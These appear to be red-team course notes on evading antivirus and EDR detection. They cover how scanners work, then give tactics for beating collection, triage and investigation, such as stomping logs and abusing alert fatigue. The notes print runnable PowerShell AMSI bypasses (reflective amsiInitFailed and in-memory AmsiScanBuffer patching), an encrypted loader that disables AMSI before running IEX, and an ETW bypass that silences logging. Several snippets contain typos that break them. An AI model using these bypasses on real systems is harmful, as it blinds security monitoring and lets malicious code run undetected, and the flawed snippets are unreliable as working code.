


<!-- omit in toc -->
# Obfuscation

<!-- omit in toc -->
## Table of Content

- [Links](#links)
- [Goals](#goals)
- [General](#general)
  - [What evasion can and can't do](#what-evasion-can-and-cant-do)
  - [Blue Kill Chain](#blue-kill-chain)
  - [How to effectively not be detected](#how-to-effectively-not-be-detected)
- [How does AV and EDR detect Malware?](#how-does-av-and-edr-detect-malware)
  - [Static Detection](#static-detection)
  - [Dynamic Detection](#dynamic-detection)
- [AMSI and Fileless Malware](#amsi-and-fileless-malware)
  - [What is AMSI?](#what-is-amsi)
  - [Data Flow](#data-flow)
  - [Tool](#tool)
  - [Human vs Machine Analysis](#human-vs-machine-analysis)
- [Obfuscating Static Signatures](#obfuscating-static-signatures)
  - [Unravelling Obfuscation](#unravelling-obfuscation)
  - [What can we do?](#what-can-we-do)
  - [Randomized Capitalization changes Hash](#randomized-capitalization-changes-hash)
  - [Modifying Byte Strings](#modifying-byte-strings)
    - [Variable Insertion](#variable-insertion)
      - [PowerShell](#powershell)
    - [Format String](#format-string)
      - [PowerShell](#powershell-1)
      - [C#](#c)
    - [Encrypted Strings](#encrypted-strings)
  - [Syntax Trees](#syntax-trees)
    - [Abstract Syntax Tree](#abstract-syntax-tree)
  - [Obfuscation Process](#obfuscation-process)
  - [Stagged vs Stageless](#stagged-vs-stageless)
- [Dynamic Evasion](#dynamic-evasion)
  - [What can we do?](#what-can-we-do-1)
  - [AMSI Bypass 1: Reflective Bypass](#amsi-bypass-1-reflective-bypass)
    - [What does it do?](#what-does-it-do)
    - [Why does it work?](#why-does-it-work)
  - [AMSI Bypass 2: Patching AMSI.dll in Memory](#amsi-bypass-2-patching-amsidll-in-memory)
    - [Why does it work?](#why-does-it-work-1)
  - [AMSITrigger](#amsitrigger)
  - [AMSI.fail](#amsifail)
- [Event Tracing](#event-tracing)
  - [Event Tracing for Windows](#event-tracing-for-windows)
  - [ETW Bypass PowerShell](#etw-bypass-powershell)

## Links

[Class Resources](https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation)

[DevCon presentation](https://www.youtube.com/watch?v=lP2KF7_Kwxk&ab_channel=BCSecurity)

## Goals

- Prevent Reverse Engineering:
  - Protect IP.
  - Hiding what it does.
  - Hide infrastructure (C2, channels, internal pivot points).
- Evade detection by anti-virus and hunters:
  - Disabling security software.
  - Obfuscation.
  - Encryption.
  - Blending into network traffic.
  - Leverage trusted processes.
  - 3rd party communication.

## General

### What evasion can and can't do

- Can:
  - Change indicators of compromise.
  - Extend response time of defenders.
- Can't:
  - Erase all indicators.

### Blue Kill Chain

- Funnel of fidelity:
  1. Collection.
  2. Detection (10000000s of events).
  3. Triage (100s of alerts).
  4. Investigation (10s of leads).
  5. Remediation (1s of incidents).

### How to effectively not be detected

- How to beat collection.
  - If we can identify the collector, we can potentially disable it.
    - Disable Script Block logging.
    - Turn off NetFlow collection on a router
- How to beat detection:
  - Most of the effort from red team.
  - Blend into the standard traffic.
  - Obfuscation to avoid malicious signatures.
  - Follow normal traffic flows.
    - A random machine logging into a router is probably pretty strange
- How to beat triage:
  - Starting to get a little more scrutiny from defenders
  - Blend into the alerts.
  - Use AV logs to see if anything causes a lot of alerts ▪Abuse of alert fatigue
  - Abuse assumptions (mini social engineering).
- How to beat investigation:
  - Hands on analysis is beginning to happen
  - At this point an activity has been identified as malicious
  - Prevent them from knowing what is going on:
    - Stomp logs
    - Obfuscate payloads
    - Hide

## How does AV and EDR detect Malware?

### Static Detection

- Hashes:
  - Simply hashing the file and comparing it to a database of known signatures.
  - Extremely fragile, any changes to the file will change the entire signature.
- Byte Matching (String Match):
  - Matching a specific pattern of bytes within the code.
- Hash Scanning:
  - Hybrid of the above two methods.
  - Hash sections of code and look for matches.
- Heuristics:
  - File structure.
  - Logic Flows (Abstract Syntax Trees (AST), Control Flow Graphs (CFG), etc.).
  - Rule based detections (if x & y then malicious):
    - These can also be thought of as context-based detections.
  - Often uses some kind of aggregate risk for probability of malicious file.

### Dynamic Detection

- Classification detection.
- Sandboxing: Execute code in a safe space and analyze what it does.
- System logs and events: Event tracing for Windows.
- API Hooking: Instrument and modify the behavior and flow of API calls.

## AMSI and Fileless Malware

### What is AMSI?

- AMSI (Windows Antimalware Scan Interface): Versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine.
  - Provides enhanced malware protection for your end-users and their data, applications and workloads.
  - Evaluate commands at run time.
  - Handle multiple scripting languages (Powershell, JavaScript, VBA).
  - Integrated and will inspect assemblies when the load function is called (.NET 4.8)
  - Provides an API that is AV agnostic.
  - Identify fileless threats.

### Data Flow



### Tool

[SharpTransactedLoad](https://github.com/G0ldenGunSec/SharpTransactedLoad)

### Human vs Machine Analysis

- Heavily obfuscated code can be recognized fast by humans but not by automated scans.
  - Pits Logical Evasion against Classification Evasion.

## Obfuscating Static Signatures

### Unravelling Obfuscation

- The code is evaluated when it is readable by the scripting engine.

```powershell
powershell -enc VwByAGkAdABlAC0ASABvAHMAdAAoACIAdABlAHMAdAAiACkA

Becomes:

Write-Host("test")
```

```powershell
Write-Host("te" + "st")

Does not become:

Write-Host("test")
```

### What can we do?

- Modify our hash.
- Modify byte strings.
- Modify the structure of our code.

### Randomized Capitalization changes Hash

- Powershell ignores capitalization.

```powershell
$test  = "hello world"

Can be used like:

Write-Host $TEST
Write-Host $TEst
Write-Host $teST
```

- AMSI ignores capitalization, but changing the has is a best practice.
- C# does not have the same flexibility but changing the capitalization scheme of a variable name modifies the hash.

### Modifying Byte Strings

- Lot of options:
  - Change variable names.
  - Concatenation.
  - Variable insertion.
  - Potentially the order of execution.
  - For C# changing the variable type (List to array).

#### Variable Insertion

##### PowerShell

- PowerShell recognizes $ as a special characte in a string and will fetch the associated variable.
- Embed `$var1 = 'context'` into `$var2 = "amsi$var1"`: `$var2 = amsicontext`

##### C\#

- As of C# 6 there is a similar method that we can use:

```cs
string var1 = "context";
string var2 = $"amsi{var1}";
```

- If you use a decompiler to examine you file this will look the same as doing concatenation but does produce a different file hash.

#### Format String

##### PowerShell

- PowerShell allows for the use of {} inside a string to allow for variable insertion. This is an implicit reference to the format string function.

```powershell
$test = "amsicontext" -> Flagged

$test = "amsi{0}text" -f "con" -> Not Flagged
```

##### C\#

```cs
string var1 = "context";
string var2 = String.format("amsi{0}", var1);
```

- ILSpy will decompile it to look like variable insertion.

#### Encrypted Strings

- Encrypting:

```powershell
$secureString = ConvertTo-SecureString -String '<payload>' -AsPlainText -force
$encoded = ConvertFrom-SecureString -k (0..15) $secureString > <output file>
```

- Execution:

```powershell
$encoded = <encoded payload>
$Ref = [REF].AssemblyGetType('System.Management.Automation.AmsiUtils')
$Ref.GetField('AmsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
$credential = [System.Management.Automation.PSCredential]::new("tim",(ConvertTo-SecureString -k (0..15) $encoded))
IEX $credential.GetNetworkCredential().Password
```

### Syntax Trees

- Represents source code in both compiled and interpreted languages.
- Creates a tree-like representation of a script/command.

#### Abstract Syntax Tree



### Obfuscation Process

- Break the code into pieces.
  - Identify any words that may be specific triggers.
- Identify any chunks that trigger an alert.
- Run the code together.
- Start changing structure.
  - If you want to go down the rabbit hole, start analyzing your ASTs.

### Stagged vs Stageless

- Scripts and Assemblies are typically evaluated individually as they are loaded.
  - There will still be some carry over of the risk rating.
- Trade off of incresead network traffic to less malicious code to be identified.

## Dynamic Evasion

### What can we do?

- Identify "Known Bad":
  - Sandbox detection.
  - Known hunter/AV processes.
- Change how we are executing:
  - Inject a different way.
  - Use a different download method.
  - Circumvent known choke points (D/invoke vs P/invoke).
- Corrupt the Detection Process:
  - Patch AMSI.
  - Patch ETW.
  - Unhook APIs.

### AMSI Bypass 1: Reflective Bypass

- Simplest Bypass that currently works.

```powershell
$Ref = [REF].Assembly.GetType('System.Management.Automation.AmsiUtils')
$Ref.GetField('amsiInitFailed', 'NonPublic, Static').SetValue($NULL, $TRUE)

or

$Ref = [REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($NULL, $TRUE)
```

#### What does it do?

- Using reflection, we are exposing functions from AMSI.
- We are setting the AmsiInitFailed field to True which source code shows causes AMSI to return: `AMSI_SCAN_RESULT_NOT_FOUND`

```powershell
if(AmsiUtils.amsiInitFailed){
  return AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_NOT_DETECTED
}
```

#### Why does it work?

- AMSI is loaded into the PowerShell process at start up, so it has the same permission levels as the process the malware is in.

### AMSI Bypass 2: Patching AMSI.dll in Memory

- More complicated bypass, but still allows AMSI to load.
- Patches AMSI for both the Powershell and CLR runtime.

```cs
$MethodDefinition = @'
      [DllImport("kernel32", CharSet=Charset.Ansi, ExactSpelling=true, SetLastError=true)]
      public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

      [DllImport("kernel32", CharSet=Charset.Auto)]
      public static extern IntPtr GetModuleHandle(string lpModuleName);

      [DllImport("kernel32")]
      public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint ldfloldProtect);
'@

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -Namespace 'win32' -PassThru
$ASBD = "Amsis" + "canBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle("amsi.dll")
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ASBD)
[UInt32]$Size = 0x5
[UInt32]$ProtectFlag = 0x40
[UInt32]$OldProtectFlag = 0
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag)
$buf = New-Object byte[] 6
$buf[0] = [UInt32]=xB8
$buf[1] = [UInt32]=x57
$buf[2] = [UInt32]=x00
$buf[3] = [UInt32]=x07
$buf[4] = [UInt32]=x80
$buf[5] = [UInt32]=xC3

[System.Runtime.Interopservices.Marshall]::copy($buf, 0, $BufferAddress, 6)
```

- We use C# to export a few functions from kernel32 that allows to identify where in memory `amsi.dll` has been loaded.
- We modify the memory permissions to ensure we have access.
- Modifies the return function to all always return a value of `RESULT_NOT_DETECTED`.

#### Why does it work?

- `AMSI.dll` is loaded into the same security context as the user.
- This means that we have unrestricted access to the memory space of AMSI.
- Tells the function to return a clean result prior to actually scanning.

### AMSITrigger

-[AMSITrigger](https://github.com/RythmStick/AMSITrigger)
- `AMSITrigger` is a tool to identify malicious strings in PowerShell files.
- Makes calls using AMSIScanBuffer line by line.
- Looks for `AMSI_RESULT_DETECTED` response code.

### AMSI.fail

- [AMSI.fail](https://amsi.fail/)
- [Github](https://github.com/Flangvik/AMSI.fail)
- Generates obfuscated AMSI Bypasses in PowerShell.
- Randomly selected and obfuscated.
- No two bypasses have the same signatures.

## Event Tracing

### Event Tracing for Windows

- Made up of three primary components:
  - Controllers: Build and configure tracing sessions.
  - Providers: Generates events under there.
  - Consumers: Interprets the generated events.
- Lots of different event providers.
- Logs things like process creation and start/stop.
  - .NET hunters can see all kinds of indicators from it:
    - Assembly loading activity.
    - Assembly name, function names.
    - JIT compiling events.
  - Various alert levels.
    - Key words can automatically elevate alert levels.
    - Custom levels can be set by providers as well.

### ETW Bypass PowerShell

- As mentioned, a very effective way of hunting .NET is trough the use of ETW events.
- Reflectively modify the PowerShell process to prevent events being published.
  - ETW feeds ALL of the other logs so this disables everything.

```powershell
$LogProvider = [REF].Assembly.GetType('System.Management.Automation.PSetwLogProvider')
$etwProvider = $Log.Provider.GetField('etwProvider', 'NonPublic, Static').GetValue($null)
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled', 'NonPublic, Instance').SetValue($etwProvider, 0)
```
